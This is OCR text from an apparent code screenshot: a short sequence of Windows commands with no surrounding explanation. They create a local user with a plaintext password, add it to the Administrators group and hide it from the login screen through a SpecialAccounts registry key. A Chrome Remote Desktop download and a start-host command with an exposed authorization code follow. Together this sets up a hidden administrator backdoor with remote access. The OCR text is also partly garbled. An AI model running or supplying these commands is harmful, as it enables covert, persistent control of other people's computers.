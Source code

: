 net user Aminshahdi @Gddrgddgg0070 /add

net localgroup Administrators Aminshahdi/add

reg add

"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist"

/v Aminshahdi/t REG

DWORD /d

0/f


https://dl.google.com/linux/direct/chrome-remote-desktop_current_amd64.deb



DISPLAY= /opt/google/chrome-remote-desktop/start-host --code="4/0AdLIrYc5M1Hpz_gMNBfLuR1Sm54pn5qi8Lee9aDajn-SFIXbFUTftXdYwLTqqiWdDarf1w" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=$(hostname)
